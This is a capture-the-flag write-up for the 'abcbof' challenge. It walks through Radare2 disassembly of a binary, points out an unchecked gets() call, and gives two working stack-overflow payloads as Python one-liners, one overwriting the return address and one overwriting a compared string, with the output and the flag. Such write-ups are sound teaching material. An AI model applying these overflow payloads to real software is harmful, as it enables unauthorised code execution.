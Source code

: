 # abcbof

## Solution

We can disassemble the binary and list all functions using a tool like Radare2.

```asm
[greenavocado@greenavocado-pc abcbof]$ r2 abcbof
 -- Beer in mind.
[0x00400640]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400640]> afl
0x00400640    1 42           entry0
0x00400680    4 42   -> 37   sym.deregister_tm_clones
0x004006b0    4 58   -> 55   sym.register_tm_clones
0x004006f0    3 34   -> 29   sym.__do_global_dtors_aux
0x00400720    1 7            entry.init0
0x00400870    1 2            sym.__libc_csu_fini
0x00400727    5 102          sym.get_flag
0x00400620    1 6            sym.imp.fopen
0x00400630    1 6            sym.imp.exit
0x004005b0    1 6            sym.imp.putchar
0x004005f0    1 6            sym.imp.fgetc
0x004005d0    1 6            sym.imp.fclose
0x00400874    1 9            sym._fini
0x00400800    4 101          sym.__libc_csu_init
0x00400670    1 2            sym._dl_relocate_static_pie
0x0040078d    3 100          main
0x004005e0    1 6            sym.imp.printf
0x00400610    1 6            sym.imp.gets
0x00400600    1 6            sym.imp.strcmp
0x004005c0    1 6            sym.imp.puts
0x00400588    3 23           sym._init
[0x00400640]>
```

It's worth noting the ```sym.get_flag``` function, as it's likely our "win" function.

```
0x00400727    5 102          sym.get_flag
```

We can verify this by disassembling the function.

```asm
[0x00400640]> pdf @ sym.get_flag
            ; CALL XREF from main @ 0x4007d9
┌ 102: sym.get_flag ();
│           ; var uint32_t c @ rbp-0x9
│           ; var file*stream @ rbp-0x8
│           0x00400727      55             push rbp
│           0x00400728      4889e5         mov rbp, rsp
│           0x0040072b      4883ec10       sub rsp, 0x10
│           0x0040072f      488d35520100.  lea rsi, [0x00400888]       ; "r" ; const char *mode
│           0x00400736      488d3d4d0100.  lea rdi, str.flag.txt       ; 0x40088a ; "flag.txt" ; const char *filename
│           0x0040073d      e8defeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x00400742      488945f8       mov qword [stream], rax
│           0x00400746      48837df800     cmp qword [stream], 0
│       ┌─< 0x0040074b      7515           jne 0x400762
│       │   0x0040074d      bf01000000     mov edi, 1                  ; int status
│       │   0x00400752      e8d9feffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from sym.get_flag @ 0x400775
│      ┌──> 0x00400757      0fbe45f7       movsx eax, byte [c]
│      ╎│   0x0040075b      89c7           mov edi, eax                ; int c
│      ╎│   0x0040075d      e84efeffff     call sym.imp.putchar        ; int putchar(int c)
│      ╎│   ; CODE XREF from sym.get_flag @ 0x40074b
│      ╎└─> 0x00400762      488b45f8       mov rax, qword [stream]
│      ╎    0x00400766      4889c7         mov rdi, rax                ; FILE *stream
│      ╎    0x00400769      e882feffff     call sym.imp.fgetc          ; int fgetc(FILE *stream)
│      ╎    0x0040076e      8845f7         mov byte [c], al
│      ╎    0x00400771      807df7ff       cmp byte [c], 0xff
│      └──< 0x00400775      75e0           jne 0x400757
│           0x00400777      488b45f8       mov rax, qword [stream]
│           0x0040077b      4889c7         mov rdi, rax                ; FILE *stream
│           0x0040077e      e84dfeffff     call sym.imp.fclose         ; int fclose(FILE *stream)
│           0x00400783      bf00000000     mov edi, 0                  ; int status
└           0x00400788      e8a3feffff     call sym.imp.exit           ; void exit(int status)
[0x00400640]>
```

As you can see, it opens the flag file and reads it one character at a time using ```fgetc``` and printing it using ```putchar()```.

With this in mind, we note the address of the function, which is ```0x00400727```.
We then proceed to disassembling the ```main``` function.

```asm
[0x00400640]> pdf @ main
            ; DATA XREF from entry0 @ 0x40065d
┌ 100: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x110
│           ; var char *s2 @ rbp-0x10
│           0x0040078d      55             push rbp
│           0x0040078e      4889e5         mov rbp, rsp
│           0x00400791      4881ec100100.  sub rsp, 0x110
│           0x00400798      488d3df90000.  lea rdi, str.Hello_everyone__say_your_name: ; 0x400898 ; "Hello everyone, say your name: " ; const char *format
│           0x0040079f      b800000000     mov eax, 0
│           0x004007a4      e837feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x004007a9      488d85f0feff.  lea rax, [s]
│           0x004007b0      4889c7         mov rdi, rax                ; char *s
│           0x004007b3      b800000000     mov eax, 0
│           0x004007b8      e853feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004007bd      488d45f0       lea rax, [s2]
│           0x004007c1      4889c6         mov rsi, rax                ; const char *s2
│           0x004007c4      488d3ded0000.  lea rdi, str.CyberCastors   ; 0x4008b8 ; "CyberCastors" ; const char *s1
│           0x004007cb      e830feffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│           0x004007d0      85c0           test eax, eax
│       ┌─< 0x004007d2      750a           jne 0x4007de
│       │   0x004007d4      b800000000     mov eax, 0
│       │   0x004007d9      e849ffffff     call sym.get_flag
│       │   ; CODE XREF from main @ 0x4007d2
│       └─> 0x004007de      488d3de00000.  lea rdi, str.You_lose       ; 0x4008c5 ; "You lose!" ; const char *s
│           0x004007e5      e8d6fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004007ea      b800000000     mov eax, 0
│           0x004007ef      c9             leave
└           0x004007f0      c3             ret
[0x00400640]>
```

Theres a call to ```strcmp()``` which compares "CyberCastors" to a string at ```rbp-0x10```.
If the compare succeeds, the function calls ```sym.get_flag```.
However, there's no function that writes to this address.

We can also see that the function calls ```gets()``` which does no bounds checks on user input, allowing us to write past buffers.
There are two methods we can use to exploit this call and print the flag.

### Overwriting the return address

We know from Radare2 that ```gets()``` will write our input to ```rbp-0x110```.
Therefore, writing 0x110+8 (280) bytes will overwrite ```rbp``` and another 8 bytes would over write the return address.
If we overwrite the return address with the address of the flag function, the program should print the flag.

```
python -c "import sys; sys.stdout.buffer.write(b'\x41' * 280 + b'\x27\x07\x40\x00\x00\x00\x00\x00')" | ./abcbof
```

Here's the output:

```
[greenavocado@greenavocado-pc abcbof]$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * 280 + b'\x27\x07\x40\x00\x00\x00\x00\x00')" | ./abcbof
Hello everyone, say your name: You lose!
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

### Overwriting ```rbp-0x10```

Instead of overwriting the return address, because the string being compared is located on under the address used by ```gets()```, we can also overwrite this variable with the correct string.

The start of the string being compared is located 0x100 (256) bytes after the address used by ```gets()```.
Therefore, if we fill the first variable by writing 256 arbitrary bytes, we can write into the address of the second variable.

```
python -c "print('A' * 256 + 'CyberCastors')" | ./abcbof
```

Here's the output:

```
[greenavocado@greenavocado-pc abcbof]$ python -c "print('A' * 256 + 'CyberCastors')" | ./abcbof
Hello everyone, say your name: castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

## Flag

```castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}```

